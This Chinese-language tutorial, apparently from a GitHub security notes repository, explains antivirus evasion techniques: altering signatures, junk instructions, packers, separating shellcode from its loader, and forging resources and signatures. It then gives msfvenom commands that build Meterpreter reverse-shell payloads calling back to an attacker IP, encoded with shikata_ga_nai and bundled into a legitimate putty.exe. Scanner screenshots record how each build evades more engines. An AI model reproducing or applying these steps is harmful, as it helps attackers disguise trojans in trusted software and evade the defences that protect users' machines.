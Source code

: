 # 免杀技术介绍

免杀，也就是反病毒（AntiVirus）与反间谍（AntiSpyware）的对立面，英文为 Anti-AntiVirus（简写 Virus AV），逐字翻译为“反-反病毒”，翻译为“反杀毒技术”。

## 修改特征码

免杀的最基本思想就是破坏特征，这个特征有可能是特征码，有可能是行为特征， 只要破坏了病毒与木马所固有的特征，并保证其原有功能没有改变，一次免杀就能完成了。 
特征码：能识别一个程序是一个病毒的一段不大于64字节的特征串
就目前的反病毒技术来讲，更改特征码从而达到免杀的效果事实上包含着两种方式。 
一种是改特征码，这也是免杀的最初方法。例如一个文件在某一个地址内有“灰鸽子上线成功！”这么一句话，表明它就是木马，只要将相应地址内的那句话改成别的就可以了，如果是无关痛痒的，直接将其删掉也未尝不可。 
第二种是针对目前推出的校验和查杀技术提出的免杀思想，它的原理虽然仍是特征码，但是已经脱离纯粹意义上特征码的概念，不过万变不离其宗。其实校验和也是根据病毒文件中与众不同的区块计算出来的，如果一个文件某个特定区域的校验和符合病毒库中的特征，那么反病毒软件就会报警。所以如果想阻止反病毒软件报警，只要对病毒的特定区域进行一定的更改，就会使这一区域的校验和改变，从而达到欺骗反病毒软件的目的。 修改特征码最重要的是定位特征码，但是定位了特征码修改后并不代表程序就能正常运行，费时费力，由于各个杀软厂商的特征库不同，所以一般也只能对一类的杀软起效果。虽然效果不好，但有时候在没有源码的情况下可以一用。  

## 花指令免杀

花指令其实就是一段毫无意义的指令，也可以称之为垃圾指令。花指令是否存在对程序的执行结果没有影响，所以它存在的唯一目的就是阻止反汇编程序，或对反汇编设置障碍。 大多数反病毒软件是靠特征码来判断文件是否有毒的，而为了提高精度，现在的特征码都是在一定偏移量限制之内的，否则会对反病毒软件的效率产生严重的影响！ 而在黑客们为一个程序添加一段花指令之后，程序的部分偏移会受到影响，如果反病毒软件不能识别这段花指令，那么它检测特征码的偏移量会整体位移一段位置，自然也就无法正常检测木马了。

## 加壳免杀

说起软件加壳，简单地说，软件加壳其实也可以称为软件加密（或软件压缩），只是加密（或压缩）的方式与目的不一样罢了。壳就是软件所增加的保护，并不会破坏里面的程序结构，当我们运行这个加壳的程序时，系统首先会运行程序里的壳， 然后由壳将加密的程序逐步还原到内存中，最后运行程序。 当我们运行这个加壳的程序时，系统首先会运行程序的“壳”，然后由壳将加密的程序逐步还原到内存中，最后运行程序。这样一来，在我们看来，似乎加壳之后的程序并没有什么变化，然而它却达到了加密的目的，这就是壳的作用。 加壳虽然对于特征码绕过有非常好的效果，加密壳基本上可以把特征码全部掩盖， 但是缺点也非常的明显，因为壳自己也有特征。在某些比较流氓的国产杀软的检测方式下，主流的壳如 VMP, Themida 等，一旦被检测到加壳直接弹框告诉你这玩意儿有问题，虽然很直接，但是还是挺有效的。有些情况下，有的常见版本的壳会被直接脱掉分析。 面对这种情况可以考虑用一切冷门的加密壳，有时间精力的可以基于开源的压缩壳改一些源码，效果可能会很不错。 总得来说，加壳的方式来免杀还是比较实用的，特别是对于不开源的 PE 文件，通过加壳可以绕过很多特征码识别。

## 内存免杀

CPU 不可能是为某一款加壳软件而特别设计的，因此某个软件被加壳后的可执行代码 CPU 是读不懂的。这就要求在执行外壳代码时，要先将原软件解密，并放到内存 里，然后再通知 CPU 执行。 因为杀毒软件的内存扫描原理与硬盘上的文件扫描原理都是一样的，都是通过特征码比对的，只不过为了制造迷惑性，大多数反病毒公司的内存扫描与文件扫描采用 的不是同一套特征码，这就导致了一个病毒木马同时拥有两套特征码，必须要将它的不是同一套特征码，这就导致了一个病毒木马同时拥有两套特征码，必须要将它 们全部破坏掉才能躲过反病毒软件的查杀。 因此，除了加壳外，黑客们对抗反病毒软件的基本思路没变。而对于加壳，只要加 一个会混淆程序原有代码的“猛”壳，其实还是能躲过杀毒软件的查杀的。

## 二次编译

metasploit的msfvenom提供了多种格式的payload和encoder，生成的 shellcode 也为二次加工提供了很大遍历，但是也被各大厂商盯得死死的。 而shikata_ga_nai是msf中唯一的评价是excellent的编码器，这种多态编码技术使得 每次生成的攻击载荷文件是不一样的，编码和解码也都是不一样。还可以利用管道 进行多重编码进行免杀。 目前msfvenom的encoder特征基本都进入了杀软的漏洞库，很难实现单一 encoder 编码而绕过杀软，所以对shellcode进行进一步修改编译成了msf免杀的主流。互联网上有很多借助于C、C#、python等语言对shellcode进行二次编码从而达到免杀的效果。

## 分离免杀

payload 分离免杀和 webshell 分离免杀，采用分离法，即将 ShellCode 和加载器分离。网上各种加载器代码也有很多，各种语言实现的 都很容易找到，虽然看起来比较简单，但效果却是不错的。比如 shellcode_launcher，加载c代码，基本没有能查杀的反病毒工具。  

## 资源修改

有些杀软会设置有扫描白名单，比如之前把程序图标替换为360安全卫士图标就能过360的查杀。

1. 加资源 

使用ResHacker对文件进行资源操作，找来多个正常软件，将它们的资源加入到自己软件，如图片，版本信息，对话框等。

2. 替换资源 

使用ResHacker替换无用的资源（Version等）。

3. 加签名 

使用签名伪造工具，将正常软件的签名信息加入到自己软件中。

# 免杀制作

## msf 自带免杀

### 原始 Payload

使用 msf 生成一个原始 payload 作为原始参数对比，`-f`表示输出为 exe 文件，`-o`指定输入文件名

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.163 LPORT=3333 -f exe -o payload1.exe
```

![image-20240628162645467](27.%E5%85%8D%E6%9D%80/image-20240628162645467.png)
上传到在线检查工具上查一下 https://www.virscan.org/

![image-20240628162649417](27.%E5%85%8D%E6%9D%80/image-20240628162649417.png)
使用 360 查杀一下

![image-20240628162652923](27.%E5%85%8D%E6%9D%80/image-20240628162652923.png)

### msf 自编码处理

用 msf 自带的编码工具对原始 payload 进行编码，可使用`msfvenom --list encoders`查看所有编码器

![image-20240628162657189](27.%E5%85%8D%E6%9D%80/image-20240628162657189.png)

我们使⽤`x86/shikata_ga_nai`的编码方式生成 payload，参数`-i`为编码次数，我这里设置15次

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.49.163 LPORT=3333 -e x86/shikata_ga_nai -i 15 -f exe -o payload2.exe
```

![image-20240628162701075](27.%E5%85%8D%E6%9D%80/image-20240628162701075.png)
传到检测网站上查一下，相较于原始 payload，有 4 款杀毒软件检测不出了

![image-20240628162706445](27.%E5%85%8D%E6%9D%80/image-20240628162706445.png)

### msf 自捆绑免杀  

在生成 payload 时可以使用捆绑功能，使用 msfvenom 的`-x`参数可以指定⼀个⾃定义的可执⾏⽂件作为模板,并将 payload 嵌⼊其中，`-x`后面跟对应⽂件路径就可以。
我这⾥使⽤⼀个正规的 putty.exe 作为被捆绑测试软件。下载链接：
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

⽣成 payload 命令如下

![image-20240628162711040](27.%E5%85%8D%E6%9D%80/image-20240628162711040.png)

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.163 LPORT=3333 -x putty.exe -f exe -o payload3.exe
```

仅有 9 款引擎检测出来

![image-20240628162715076](27.%E5%85%8D%E6%9D%80/image-20240628162715076.png)

分别使用 360 已经无法检测出了，但是如果运行的话，会被基于行为的分析检测出来

![image-20240628162718537](27.%E5%85%8D%E6%9D%80/image-20240628162718537.png)

### msf 自捆绑+编码
将上面的编码和捆绑两种方法结合⼀下进行尝试
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.163 LPORT=3333 -e x86/shikata_ga_nai -x putty.exe -i 15 - f exe -o payload4.exe  
```
![image-20240628162723237](27.%E5%85%8D%E6%9D%80/image-20240628162723237.png)

直接使用 360 和 火绒扫描，未发现危险，如果运行的话仍然会被拦截。

![image-20240628162726582](27.%E5%85%8D%E6%9D%80/image-20240628162726582.png)

![image-20240628162730783](27.%E5%85%8D%E6%9D%80/image-20240628162730783.png)

其他
shellter
veil
